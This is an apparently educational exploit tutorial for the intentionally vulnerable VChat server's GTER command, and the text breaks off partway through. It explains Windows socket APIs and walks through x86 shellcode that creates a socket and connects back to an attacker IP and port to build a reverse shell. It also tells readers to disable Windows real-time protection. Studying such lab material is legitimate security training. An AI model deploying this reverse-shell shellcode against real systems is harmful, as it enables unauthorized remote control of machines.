 # VChat GTER Exploit: Reusing Code
> [!NOTE]
> - The following exploit and its procedures are based on an original [Blog](https://fluidattacks.com/blog/vulnserver-gter-no-egghunter/) from fluid attacks.
> - Disable Windows *Real-time protection* at *Virus & threat protection* -> *Virus & threat protection settings*.
> - Don't copy the *$* sign when copying and pasting a command in this tutorial.
> - Offsets may vary depending on what version of VChat was compiled, the version of the compiler used, and any compiler flags applied during the compilation process.
___
As with the [previous exploit](https://github.com/DaintyJet/VChat_GTER_EggHunter), the GTER buffer has limited space. This means, we have to be creative when performing any kind of buffer overflow to gain remote code execution (often leading to a shell) with the GTER command. This exploit focuses on the reuse of code that is already present and loaded on the target machine. We will write shellcode (assembly) to execute useful gadgets of Windows C Standard Library code that has already been loaded in memory in order to allocate a new Windows shell and create a remote connection to the attacker's machine, turning this into a reverse shell that allows for arbitrary remote code execution. We do this to limit the total amount of space required to generate a shell since our custom shellcode will not have to locate or load any additional libraries.

> [!IMPORTANT]
> Please set up the Windows and Linux systems as described in [SystemSetup](./SystemSetup/README.md)!
## VChat Setup and Configuration
This section covers the compilation process, and use of the VChat Server. We include instructions for both the original VChat code which was compiled with MinGW and GCC on Windows, and the newly modified code that can be compiled with the Visual Studio C++ compiler.

### Visual Studio
<details>
	
1. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun) for the *essfunc* DLL.
2. Build the project, as this contains inline assembly the target DLL file must be compiled as a x86 DLL (32-bits).
3. Copy the Resulting DLL from the *Debug* folder in the [Essfunc Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun/Debug) into the *Debug* folder in the [VChat Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat/Debug)
4. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat) for the *VChat* EXE.
5. Build the Project; our executable will be in the *Debug* folder. You can then launch the executable!
</details>

### Mingw/GCC
<details>
	
Compile VChat and its dependencies if they have not already been compiled. This is done with mingw.

1. Create the essfunc object File.
	```powershell
	# Compile Essfunc Object file
	$ gcc.exe -c essfunc.c
	```
2. Create the [DLL](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library) containing functions that will be used by the VChat.
	```powershell
	# Create a DLL with a static (preferred) base address of 0x62500000
	$ gcc.exe -shared -o essfunc.dll -Wl,--out-implib=libessfunc.a -Wl,--image-base=0x62500000 essfunc.o
	```
      * ```-shared -o essfunc.dll```: We create a DLL "essfunc.dll"; these are equivalent to the [shared library](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html) in Linux.
      * ```-Wl,--out-implib=libessfunc.a```: We tell the linker to generate an import library "libessfunc.a" [2].
      * ```-Wl,--image-base=0x62500000```: We specify the [Base Address](https://learn.microsoft.com/en-us/cpp/build/reference/base-base-address?view=msvc-170) as ```0x62500000``` [3].
      * ```essfunc.o```: We build the DLL based on the object file "essfunc.o"
3. Compile the VChat application.
	```powershell
	# Compile and Link VChat
	$ gcc.exe vchat.c -o vchat.exe -lws2_32 ./libessfunc.a
	```
      * ```vchat.c```: The source file is "vchat.c".
      * ```-o vchat.exe```: The output file will be the executable "vchat.exe".
      * ```-lws2_32 ./libessfunc.a```: Link the executable against the import library "libessfunc.a", enabling it to use the DLL "essfunc.dll".
</details>

## Exploit Process
The following sections cover the process that should (or may) be followed when performing this exploitation on the VChat application. It should be noted that the [**Dynamic Analysis**](#dynamic-analysis) section makes certain assumptions, such as having access to the application binary that may not be realistic in cases where you are exploiting remote servers; however, the enumeration and exploitation of generic Windows, and Linux servers to get the binary from a remote server falls outside of the scope of this document.

> [!IMPORTANT]
> The offsets and addresses shown in the following screenshots may differ from those used in the python and ruby code in this repository. This is because the offsets change slightly between the Windows 10 version of VChat compiled with GCC and the Windows 11 version compiled with the Visual Studio compiler.
### Information Collecting
We want to understand the VChat program and how it works in order to exploit it effectively. Before diving into the specifics of how VChat behaves, the most important information for us is the IP address of the Windows VM that runs VChat and the port number that VChat runs on.

1. **Windows** Launch the VChat application.
   * Click on the Icon in File Explorer when it is in the same directory as the essfunc dll.
2. (Optional) **Linux**: Run NMap.
	```sh
	# Replace the <IP> with the IP of the machine.
	$ nmap -A <IP>
	```
   * The `-A` flag can be considered aggressive because it does more than normal scans and is often easily detected.
   * This scan will also attempt to determine the version of the applications, which means when it encounters a non-standard application such as *VChat*, it can take 30 seconds to 1.5 minutes, depending on the speed of the systems involved, to finish scanning. You may find the scan ```nmap <IP>``` without any flags to be quicker!
   * Example results are shown below:

		

3. **Linux**: As we can see the port ```9999``` is open, we can try accessing it using **Telnet** to send unencrypted communications.
	```
	$ telnet <VChat-IP> <Port>

	# Example
	# telnet 127.0.0.1 9999
	```
   * Once you have connected, try running the ```HELP``` command. This will give us some information regarding the available commands the server processes and the arguments they take. This provides us with a starting point for our [*fuzzing*](https://owasp.org/www-community/Fuzzing) work.
   * Exit with ```CTL+]```.
   * An example is shown below.

		

4. **Linux**: We can try a few inputs to the *GTER* command and see if we can get any information. Type *GTER* followed by some additional input, as shown below. For more information on the GTER command's overflow, please refer to the [previous document](https://github.com/DaintyJet/VChat_GTER_EggHunter).

	

### Writing Shell Code
This section covers the process used when writing the initial shellcode, which we will use to create a socket connection and bind it to the input/output of a Windows shell, creating a reverse shell.

#### Windows API/System Calls
Operating systems do not expose the underlying systems and functionality directly to user space applications. The necessary functions required by most applications may be exposed through various [systemcalls](https://learn.microsoft.com/en-us/cpp/c-runtime-library/system-calls?view=msvc-170#see-also); this is done in all major operating systems, including [Linux/Unix](https://man7.org/linux/man-pages/man2/syscalls.2.html) and Windows systems. In either case when writing programs we often do not interface directly with the system calls, we use wrapper functions or an **API** implemented in one of a language's libraries. This is done to simplify their use, especially when loading the arguments into the correct registers before the system call is made and the transition to kernel space is performed. This means that if we are able to locate where in memory these library functions are loaded, we can inject the necessary arguments onto the stack to make a call or jump to the address of the API function *reusing* code that already exists in memory. We can chain these function calls together in order to gain the same effect as a much larger payload that would normally include the necessary instructions to perform the system calls in the shellcode.


The shellcode we could write, or in our case generate with `msfvenom`, often contains calls to a few notable *API* functions. Some of the commonly used functions are listed below.
#### WSAStartup
The [WSAStartup(...)](https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup) is a *Windows* function provided in the the `winsock.h` header file, which performs a call to the [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function in order to load the Windows Socket module allowing for the use of Windows Socket APIs.


The following is the `WSAStartup(...)` function's signature.
```c
int WSAStartup(
  WORD      wVersionRequired,
  [out] LPWSADATA lpWSAData
);
```
* ```wVersionRequired```: According to the docs To Be Determined...
* ```lpWSAData```: Pointer to the [WSADATA](https://learn.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-wsadata) structure which contains information used when loading the Windows Socket module.


Luckily for us, since we are exploiting a Vulnerable By Design (VBD) *web* server it has most likely already called the `WSAStartup(...)` function and loaded the Windows Socket module into memory. This allows us to reduce the size of the shellcode to some degree.

#### WSASocketA
Although the Windows [socket(...)](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-socket) and [WSASocketA(...)](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa) functions will functionally perform the same tasks, their arguments and style of use are slightly different. The `socket(...)` function models the traditional Unix style of sockets, whereas the `WSASocketA(...)` is Microsoft's implementation of the socket interface. In this case, we will use the `WSASocketA(...)` function call.

The `WSASocketA(...)` function is used to create a [socket](https://docs.oracle.com/javase/tutorial/networking/sockets/definition.html) bound to a specific port on the host machine that is used to communicate in a 2-way fashion over a transport layer protocol that we define at the time of the socket's creation. When calling this function, we must know its function signature in order to not only place the correct arguments on the stack (As we do in an x86 architecture) but also to place them onto the stack in the correct order.

The following is the function signature of the `WSASocketA(...)` function:
```c
SOCKET WSAAPI WSASocketA(
  [in] int                 af,
  [in] int                 type,
  [in] int                 protocol,
  [in] LPWSAPROTOCOL_INFOA lpProtocolInfo,
  [in] GROUP               g,
  [in] DWORD               dwFlags
);

```
* [```af```](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa#:~:text=Parameters-,%5Bin%5D%20af,-The%20address%20family): This argument specifies the address family of the socket.
* [```type```](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa#:~:text=and%20driver%20installed.-,%5Bin%5D%20type,-The%20type%20specification): This argument specifies the type of socket that it will be created. Will it support [TCP](https://www.cloudflare.com/learning/ddos/glossary/tcp-ip/), [UDP](https://www.cloudflare.com/learning/ddos/glossary/user-datagram-protocol-udp/) or some other kind of protocol.
* [```protocol```](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa#:~:text=and%20SOCK_STREAM.-,%5Bin%5D%20protocol,-The%20protocol%20to): This argument specifies the protocol that will be used and is specific to the `af` and `type` arguments passed.
* [```lpProtocolInfo```](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa#:~:text=Protocol%20is%20installed.-,%5Bin%5D%20lpProtocolInfo,-A%20pointer%20to): This argument is a pointer to the [WSAPROTOCOL_INFO](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/ns-winsock2-wsaprotocol_infoa) struct which provides characteristics of the socket to be created.
* [```g```](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa#:~:text=indicated%20WSAPROTOCOL_INFO%20structure.-,%5Bin%5D%20g,-An%20existing%20socket): This argument specifies the group a socket will belong to.
* `[``dwFlags```](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa#:~:text=public%20header%20file.-,%5Bin%5D%20dwFlags,-A%20set%20of): This argument is used to specify any additional configurations through flags we set.

Now let's look at the Assembly generated by a call to `WSASocketA(...)`:
```
xor ebx,ebx             ; Set EBX to NULL
push ebx                ; Push 'dwFlags = NULL' parameter
push ebx                ; Push 'g = NULL' parameter
push ebx                ; Push 'lpProtocolInfo = NULL' parameter

mov bl,0x6              ; Set bl register to 6 (Protocol: IPPROTO_TCP = 6)
push ebx                ; Push 'protocol = 6' parameter

xor ebx,ebx             ; Set EBX to NULL
inc ebx                 ; Set EBX to 1 (Type: SOCK_STREAM = 1)
push ebx                ; Push 'type = 1' parameter

inc ebx                 ; Set EBX to 2 (Af: AF_INET = 2)
push ebx                ; Push 'af = 2' parameter

mov ebx,0x771e9ba0      ; Change! Address of WSASocketA()
call ebx                ; call WSASocketA()
xchg eax,esi            ; Save the returned socket handle on ESI
```
> [!IMPORTANT]
> Arguments are processed in reverse order; this is because the stack is a First In Last Out (FILO) data structure, and for the arguments to appear in the expected order, we must process them (place them onto the stack) in reverse order.

1) The first set of arguments passed to ```WSASocketA(...)``` are set to NULL, this is because we do not need any configurations provided by the `dwFlags`, `g`, or `lpProtocolInfo` arguments. We can zero out a register by xor'ing it with itself, we then push the value of the register (0 or NULL) onto the stack three times, one for each of the arguments.
   ```
   xor ebx,ebx             ; Set EBX to NULL
   push ebx                ; Push 'dwFlags = NULL' parameter
   push ebx                ; Push 'g = NULL' parameter
   push ebx                ; Push 'lpProtocolInfo = NULL' parameter
   ```
2) The `bl` register is one of the 8-bit registers in an x86 architecture. This sets the lower 8 bits of the `ebx` register. In this case, we will first set the `bl` register to the value six, which represents the **IPPROTO_TCP** protocol. Then, we push it onto the stack.
   ```
   mov bl,0x6              ; Set bl register to 6 (Protocol: IPPROTO_TCP = 6)
   push ebx                ; Push 'protocol = 6' parameter
   ```
3) The last (first) two arguments for `WSASocketA(...)` have the integer value of one and two, respectively. So we first zero the `ebx` register using the xor operation as discussed previously, we then use the increment operation to set it to one. Once that is done, we can push the argument onto the stack and repeat the increment operation to get the value two.
   ```
   xor ebx,ebx             ; Set EBX to NULL
   inc ebx                 ; Set EBX to 1 (Type: SOCK_STREAM = 1)
   push ebx                ; Push 'type = 1' parameter

   inc ebx                 ; Set EBX to 2 (Af: AF_INET = 2)
   push ebx                ; Push 'af = 2' parameter
   ```
4) We will finally use the address of the `WSASocketA(...)` function, which we will later find with [arwin](https://github.com/xinwenfu/arwin), to perform a call into the `WSASocketA(...)` function and save its returned value (Returned in EAX).
   ```
   mov ebx,0x771e9ba0      ; Change! Address of WSASocketA()
   call ebx                ; call WSASocketA()
   xchg eax,esi            ; Save the returned socket handle on ESI
   ```


#### connect
Although the Windows [connect(...)](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect) and [WSAConnect(...)](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect) functions perform functionally the same tasks, their arguments and style of use are slightly different. The `connect(...)` function models the traditional Unix style of sockets, whereas the `WSAConnect(...)` is Microsoft's implementation of the socket interface. In this case, we will use the Unix-style API `connect(...)`.

The `connect(...)` function is used by a process to [make a connection](https://learn.microsoft.com/en-us/windows/win32/winsock/connecting-to-a-socket) to a specified destination.

```c
int WSAAPI connect(
  [in] SOCKET         s,
  [in] const sockaddr *name,
  [in] int            namelen
);
```
* [`s`](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect#:~:text=Parameters-,%5Bin%5D%20s,-A%20descriptor%20identifying): This argument specifies the socket descriptor for a socket that is to be used when making the connection. This specifies the source port.
* [`name`](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect#:~:text=an%20unconnected%20socket.-,%5Bin%5D%20name,-A%20pointer%20to): This argument specifies a pointer to the [sockaddr](https://learn.microsoft.com/en-us/windows/win32/winsock/sockaddr-2) structure we use to specify the destination of this connection.
* [`namelen`](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect#:~:text=an%20unconnected%20socket.-,%5Bin%5D%20name,-A%20pointer%20to): This argument specifies the length of the `name` argument;  depending on the socket type, we may use a different `sockaddr` structure.

Below is the definition of the `sockaddr` structure for connections using IPv4:
```c
struct sockaddr {
        ushort  sa_family;
        char    sa_data[14];
};
```
* [`sa_family`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr#:~:text=Members-,sa_family,-The%20address%20family): Protocol family used by the socket.
* [`sa_data`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr#:~:text=Address%20Families.-,sa_data%5B14%5D,-An%20array%20of): Socket Address.

Below is the definition of the `sockaddr_in` structure for connections using IPv4:
```c
struct sockaddr_in {
        short   sin_family;
        u_short sin_port;
        struct  in_addr sin_addr;
        char    sin_zero[8];
};
```
* [`sin_family`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr_in#:~:text=Members-,sin_family,-The%20address%20family): Protocol family used by the socket.
* [`sin_port`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr_in#:~:text=set%20to%20AF_INET.-,sin_port,-A%20transport%20protocol):  Port of number.
* [`sin_addr`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr_in#:~:text=protocol%20port%20number.-,sin_addr,-An%20IN_ADDR%20structure): IPv4Address.
* [`sin_zero`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr_in#:~:text=IPv4%20transport%20address.-,sin_zero%5B8%5D,-Reserved%20for%20system): Zero Padding (Reserved for system use).


Now let's look at the assembly generated by a call to the `connect(...)` function:
```
mov ebx,0x6B57555F      ; Change if needed! Attacker IP: 10.0.2.22. In reverse order:
                        ; hex(15) = 0x16
                        ; hex(2) = 0x02
                        ; hex(0) = 0x00
                        ; hex(10) = 0x0a
                        ; 0x1602000a + 0x55555555 = 0x6B57555F
sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
push ebx                ; Push the IP (0x1400a8c0) to the stack (No NULL bytes in the shell code!)
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure

push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16

push ebx                ; Push pointer ('name' parameter)

push esi                ; Push saved socket handler ('s' parameter)

mov ebx,0x71ab4a07      ; Address of connect()
call ebx                ; Call connect()
```

1) We first create a `sockaddr_in`/`sockaddr` structure on the stack (That is passed as a `sockaddr`). We add a constant value to the Hex representation of the IP address to encode the IP address and later subtract the constant during the shellcode's execution to decode it. This is to eliminate any NULL bytes (0x0). The IP is placed on the stack in Little-Endian notation (Reverse Order), and the tuple (IP, Port) is held in the `sa_data` field of the `sockaddr` structure, with the `sa_family` value holding the protocol type.
   ```
   mov ebx,0x6B57555F      ; Change if needed! Attacker IP: 10.0.2.22. In reverse order:
                           ; hex(15) = 0x16
                           ; hex(2) = 0x02
                           ; hex(0) = 0x00
                           ; hex(10) = 0x0a
                           ; 0x1602000a + 0x55555555 = 0x6B57555F
   sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
   push ebx                ; Push the IP (0x1400a8c0) to the stack (No NULL bytes in the shell code!)
   push word 0x5c11        ; Push port: hex(4444) = 0x115c
   xor ebx,ebx             ; Zero out EBX
   add bl,0x2              ; sa_family: AF_INET = 2
   push word bx            ; Push sa_family parameter
   mov ebx,esp             ; Move ESP into EBX now EBX holds the pointer to sockaddr structure (which is on the stack)
   ```
   * Depending on the IP we are sending, we can change the constant we use in the addition and subtraction to prevent any NULL bytes!
   * For the `sockaddr` structure
2) Then we push the size of the `sockaddr` structure onto the stack (This is always 16 bytes for IPv4).
   ```
   push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16
   ```
3) We then push the `sockaddr` structure onto the stack, this address was loaded into the `ebx` register in the last line of the `sockaddr` block discussed previously.
   ```
   push ebx                ; Push pointer ('name' parameter)
   ```
4. The socket descriptor is then placed onto the stack. It is assumed that the `WSASocketA(...)` assembly has been run, and it stores the socket descriptor in the `esi` register.
   ```
   push esi                ; Push saved socket handler ('s' parameter)
   ```
5) We then call the `connect(...)` function.
   ```
   mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
   call ebx                ; Call connect()
   ```
   * The address of the `connect(...)` function is found with [arwin](https://github.com/xinwenfu/arwin)
   * We will return to the stack, and we do not need to save the return value (It will return if it fails or not).


#### CreateProcessA
The [`CreateProcessA(...)`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) function is used in Windows to [fork](https://man7.org/linux/man-pages/man2/fork.2.html) the current process and [execute](https://linux.die.net/man/3/execv) a new process in the forked process's place. This is what we use to spawn a Windows command prompt or powershell window and a pipe to set its file descriptors (stdin, stdout, and stderr) to read from or write to the Socket we have created.

The function signature of `CreateProcessA(...)` is shown below:
```c
BOOL CreateProcessA(
  [in, optional]      LPCSTR                lpApplicationName,
  [in, out, optional] LPSTR                 lpCommandLine,
  [in, optional]      LPSECURITY_ATTRIBUTES lpProcessAttributes,
  [in, optional]      LPSECURITY_ATTRIBUTES lpThreadAttributes,
  [in]                BOOL                  bInheritHandles,
  [in]                DWORD                 dwCreationFlags,
  [in, optional]      LPVOID                lpEnvironment,
  [in, optional]      LPCSTR                lpCurrentDirectory,
  [in]                LPSTARTUPINFOA        lpStartupInfo,
  [out]               LPPROCESS_INFORMATION lpProcessInformation
);
```
* [`lpApplicationName`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa#:~:text=%5Bin%2C%20optional%5D%20lpApplicationName): This is the full path to the module or executable to be executed, if this is NULL the first whitespace delimitated token in `lpCommandLine` must be the executable's name.
* [`lpCommandLine`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa#:~:text=%5Bin%2C%20out%2C%20optional%5D%20lpCommandLine): This is the command to be executed, if this is null it uses the `lpApplicationName` parameter as a argument.
* [`lpProcessAttributes`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa#:~:text=%5Bin%2C%20optional%5D%20lpProcessAttributes): A pointer to the [SECURITY_ATTRIBUTES](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa379560(v=vs.85)) structure. This can be NULL.
* [`lpThreadAttributes`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa#:~:text=%5Bin%2C%20optional%5D%20lpThreadAttributes): A pointer to the [SECURITY_ATTRIBUTES](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa379560(v=vs.85)) structure. This can be NULL.
* [`bInheritHandles`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa#:~:text=%5Bin%5D%20bInheritHandles): If set to true all inheritable handles will be inherited by the child process. Otherwise, they will not be.
* [`dwCreationFlags`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa#:~:text=%5Bin%5D%20dwCreationFlags): Used to configure Process creation attributes such as priority through the [process-creation-flags](https://learn.microsoft.com/en-us/windows/win32/procthread/process-creation-flags).
* [`lpEnvironment`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa#:~:text=%5Bin%2C%20optional%5D%20lpEnvironment): This is used to control the environment block of the spawned processes. If NULL, it will be inherited from the parent process.
* [`lpCurrentDirectory`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa#:~:text=%5Bin%2C%20optional%5D%20lpCurrentDirectory): Full path to the directory the process should have as the Current Working Directory (CWD), if NULL it will share the CWD of the parent process.
* [`lpStartupInfo`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa#:~:text=%5Bin%5D-,lpStartupInfo,-A%20pointer%20to): Pointer to [STARTUPINFOA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa) structure.
* [`lpProcessInformation`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa#:~:text=%5Bout%5D%20lpProcessInformation): Pointer to [PROCESS_INFORMATION](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information) structure. The function will write to the structure (pointer) we provide.


The [`_STARTUPINFOA`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa) structure will be used to make sure our process reads from and writes to the socket we have created. Its definition is shown below:
```c
typedef struct _STARTUPINFOA {
  DWORD  c;
  LPSTR  lpReserved;
  LPSTR  lpDesktop;
  LPSTR  lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
} STARTUPINFOA, *LPSTARTUPINFOA;
```
* [`c`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=Members-,cb,-The%20size%20of): Size of the structure in bytes.
* [`lpReserved`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=structure%2C%20in%20bytes.-,lpReserved,-Reserved%3B%20must%20be): Must be NULL (NULL).
* [`lpDesktop`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=structure%2C%20in%20bytes.-,lpReserved,-Reserved%3B%20must%20be): Name of desktop or Windows station for this process (NULL).
* [`lpTitle`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=a%20Desktop.-,lpTitle,-For%20console%20processes): Name to be displayed in title bar; if NULL this is the executable's file name is used (NULL).
* [`dwX`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=new%20console%20window.-,dwX,-If%20dwFlags%20specifies): Start position x, if no GUI window is created this should be NULL.
* [`dwY`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=CreateWindow%20is%20CW_USEDEFAULT.-,dwY,-If%20dwFlags%20specifies): Start position y, if no GUI window is created this should be NULL.
* [`dwXSize`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=CreateWindow%20is%20CW_USEDEFAULT.-,dwXSize,-If%20dwFlags%20specifies): Width of window, if no GUI window is created this is ignored (NULL).
* [`dwYSize`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=CreateWindow%20is%20CW_USEDEFAULT.-,dwYSize,-If%20dwFlags%20specifies): Height of window, if no GUI window is created this is ignored (NULL).
* [`dwXCountChars`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=CreateWindow%20is%20CW_USEDEFAULT.-,dwXCountChars,-If%20dwFlags%20specifies): Specifies the screen buffer width, if no GUI window is created this is ignored (NULL).
* [`dwYCountChars`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=member%20is%20ignored.-,dwYCountChars,-If%20dwFlags%20specifies): Specifies the screen buffer height, if no GUI window is created this is ignored (NULL).
* [`dwFillAttribute`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=member%20is%20ignored.-,dwFillAttribute,-If%20dwFlags%20specifies): Specifies the initial text and background colors, if no GUI window is created this is ignored (NULL).
* [`dwFlags`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=member%20is%20ignored.-,dwFillAttribute,-If%20dwFlags%20specifies): Specifies startup window parameters (Bitmask), used when a process makes a window.
* [`wShowWindow`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=with%20STARTF_USEHOTKEY.-,wShowWindow,-If%20dwFlags%20specifies): Specifies the STARTF_USESHOWWINDOW parameter, can show any value from nCmdShow parameter of the [ShowWindow](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-showwindow) function, otherwise it is ignored. (NULL).
* [`cbReserved2`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=set%20to%20SW_SHOWDEFAULT.-,cbReserved2,-Reserved%20for%20use): Reserved must be zero (NULL).
* [`lpReserved2`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=must%20be%20zero.-,lpReserved2,-Reserved%20for%20use): Reserved must be NULL (NULL).
* [`hStdInput`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=must%20be%20NULL.-,hStdInput,-If%20dwFlags%20specifies): Specifies handle to use for stdin.
* [`hStdOutput`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=member%20is%20ignored.-,hStdOutput,-If%20dwFlags%20specifies): Specifies handle to use for stdout.
* [`hStdError`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=Windows%20Server%C2%A02012.-,hStdError,-If%20dwFlags%20specifies): Specifies handle to use for stderr.


The [`_PROCESS_INFORMATION`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information) structure definition is shown below:
```
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
```
* [`hProcess`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information#:~:text=Members-,hProcess,-A%20handle%20to): Handel to newly created process.
* [`hThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information#:~:text=the%20process%20object.-,hThread,-A%20handle%20to): Handel to primary thread of the newly created process.
* [`dwProcessId`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information#:~:text=the%20thread%20object.-,dwProcessId,-A%20value%20that): Process ID that uniquely identifies the process.
* [`dwThreadId`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information#:~:text=may%20be%20reused.-,dwThreadId,-A%20value%20that): Thread ID, used to uniquely identify a thread. Once a thread exits, the ID may be reused.

> [!NOTE]
> Since this structure is only used to contain information returned by the `CreateProcessA(...)` call, we can have all values set to NULL when we create it on the stack.


The following is the assembly for our call to `CreateProcessA(...)`:
```
